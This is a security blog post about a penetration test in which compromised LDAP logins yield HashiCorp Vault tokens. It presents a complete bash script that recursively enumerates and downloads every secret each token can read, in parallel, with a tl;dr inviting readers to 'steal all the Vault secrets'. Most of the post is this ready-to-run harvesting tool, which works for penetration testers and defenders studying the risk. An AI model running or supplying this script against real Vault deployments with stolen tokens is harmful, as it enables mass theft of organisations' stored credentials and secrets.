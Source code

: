 ```yaml
---
layout: post
title: "Hacking Hashicorp's Vault Secrets Using Login Enumeration"
author: "Joshua Rogers"
categories: security
---
```


## Introduction

HashiCorp Vault is a popular tool for managing secrets, where users can store and access secrets programmatically. The software behind the Vault server itself may be secure, but any system is only secure as its weakest link.

In a recent pentest, I was able to fully compromise the authentication server which was used by Vault (LDAP). Although I couldn't compromise the Vault server itself, since I could log into every users' account, I could effectively obtain all the secrets stored there.
Of course, it is no surprise that with users' logins, the secrets they have access to... can be accessed. But Vault does not have functionality to simply download all the secrets that a user has access to, nor does it have a way to list the secrets which a user has access to.
Instead, we must enumerate _all_ secrets, attempting to download them one-by-one.

I made a bash script that recursively traverses each directory in Vault and attempts to download the secrets.

## Overview of the Enumeration Script

1. **Setting up the Script**:
   - The "VAULT_ADDR" variable in the script needs to be updated to match the Vault server's address.
   - A file named "keys" should be created and populated with tokens acquired by logging into users using the Vault CLI (`vault login -method=userpass username=username`)

2. **Script Functions**:
   - The script consists of several functions such as `touch2()`, `list_keys()`, and `enumerate_dirs()`.
   - These functions handle tasks like creating directory structures, listing keys in a given path, and recursively enumerating subdirectories (within Vault).

3. **Execution Flow**:
   - The script sets the required environment variables, including the Vault address, and loops through each of the VAULT_TOKEN values in the "keys" file.
   - Nested loops iterate through different Vault paths (`kv`, `secret`, and `ssh`), listing subdirectories and calling the `enumerate_dirs()` function.
   - The `enumerate_dirs()` function calls the `list_keys()` function, which attempts to download any secrets in a directory.
   - The `enumerate_dirs()` function then calls itself and attempts to traverse further directories (a directory can contain secrets and another directory), which will run `list_keys().
   - This recursive enumeration contains until all directories, secrets, Vault paths, and VAULT_TOKEN values, are traversed.

tl;dr: If you want to steal all the Vault secrets that can be accessed using a Vault token (or multiple), edit the following script's `VAULT_ADDR` value, and fill a file named `keys` with `VAULT_TOKEN` values.


```bash
#!/bin/bash

# Set the Vault address and token
export VAULT_ADDR=https://vault:9200/
export VAULT_FORMAT=json

touch2() {
  mkdir -p "$(dirname "$1")" && touch "$1.data"
}

# Function to list all keys in a path
list_keys() {
  local path=$1

  # Get a list of all the key-value pairs in the path
  keys=$(vault kv list "${path}")

  # Loop through each key-value pair and check if it exists
  for key in $(echo "${keys}" | jq -r '.[]' | grep -Ev "/$"  | sed 's/\/$//'); do
    if YES=$(vault kv get "${path}${key}"  2>/dev/null) ; then
      touch2 "${path}${key}"
      echo "$YES" > "${path}${key}.data"
      echo "${path}${key} exists and is readable."
    fi
  done
}

# Recursive function to enumerate all subdirectories
enumerate_dirs() {
  local dir=$1

  # List all keys in the current directory
  list_keys "${dir}"

  # Recursively enumerate all subdirectories
  subdirs=$(vault kv list "${dir}" | jq -r '.[]' | grep -v '\.$')
  for subdir in ${subdirs}; do
    enumerate_dirs "${dir}${subdir}"
  done
}

export -f list_keys
export -f enumerate_dirs
export -f touch2

# Start the enumeration from the root directory
for k in $(cat keys); do
  export VAULT_TOKEN=$k
  echo Now grabbing vault from $(vault token lookup | grep username | awk -F'"' '{print $4}')
  for j in kv secret ssh; do
    for i in $(vault kv list $j/ | jq -r '.[]' | grep -v '\.$'); do
      echo enumerate_dirs "$j/$i"
    done
  done | parallel --gnu -j20 --delay 0.1 --line-buffer
  unset VAULT_TOKEN
done
```
